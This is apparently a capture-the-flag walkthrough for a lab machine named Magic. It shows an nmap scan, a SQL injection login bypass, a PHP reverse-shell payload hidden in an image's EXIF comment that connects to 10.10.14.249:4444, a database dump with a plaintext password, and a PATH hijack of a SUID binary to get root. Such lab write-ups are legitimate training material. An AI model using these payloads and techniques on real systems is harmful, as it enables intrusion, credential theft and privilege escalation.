 # Magic walkthrough

Machine ip: 10.10.10.185

Nmap output:

```
# Nmap 7.80 scan initiated Tue Apr 28 11:42:37 2020 as: nmap -sS -sV -sC -p 0-8081 -o nmap.txt 10.10.10.185
Nmap scan report for 10.10.10.185
Host is up (0.050s latency).
Not shown: 8080 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 28 11:43:08 2020 -- 1 IP address (1 host up) scanned in 30.71 seconds
```

## User

On port 80 is hosted a website that required a login but a simple sql injection can get us in:
```
' OR '1'='1
```

The protected area allow us to upload images but the images are poorly handled during the visualization so
we can upload a corrupted image with this payload to get a shell:

```
<?php
  exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.249/4444 0>&1'");
?>
```
in order to create this image we can use extitfool tool:

```
exiftool -comment='<?php
  exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.249/4444 0>&1'");
?>'
immagine.jpg
```

we can now rename it .php.jpg and upload it. After that, we only need to go to the url where the image was uploaded to get
the shell running. To get an interactive shell we can also run:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumeration is the key to find a config file for the database showing us the password for the databse itself.
Running this commad with mysqldump we can get the password for theseus (for the machine and not only for the databse ):
```
mysqldump --user="theseus" --password="iamkingtheseus" Magic login
```
The user flag is inside the home folder of Theseus.

## Root

After a linpeas enumation a SUID binary is shown: sysinfo.

This binary calls some services so we can change the path variable to call our modified service.

For example we can change lshw as follow:

```
echo "/bin/sh" > lshw
chmod +x lshw
export PATH=/tmp:$PATH
```
and then run the sysinfo command.

Thanks to this vulnerability we can get a shell with high privileges and grab the root flag. 
